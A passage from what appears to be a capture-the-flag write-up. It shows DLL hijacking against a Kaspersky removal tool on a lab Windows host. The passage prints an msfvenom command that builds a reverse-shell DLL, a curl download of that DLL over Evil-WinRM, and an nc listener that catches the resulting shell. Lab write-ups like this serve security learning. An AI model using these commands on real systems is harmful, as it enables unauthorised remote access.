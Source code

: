 ![alt text](../assets/images/6.png)

and we got here DLL file name is KasperskyRemovalToolENU.dll lets create reverse shell with this

    ➜  trusted msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.152 LPORT=443 -f dll > KasperskyRemovalToolENU.dll
    *Evil-WinRM* PS C:\AVTest> curl http://10.8.2.152/KasperskyRemovalToolENU.dll -o KasperskyRemovalToolENU.dll
    *Evil-WinRM* PS C:\AVTest> dir


        Directory: C:\AVTest


    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe
    -a----         1/16/2025   1:45 AM           9216 KasperskyRemovalToolENU.dll
    -a----         9/14/2022   7:05 PM            235 readme.txt

grab shell

    ➜  trusted nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.133.198] 59498
    Microsoft Windows [Version 10.0.20348.887]
    (c) Microsoft Corporation. All rights reserved.
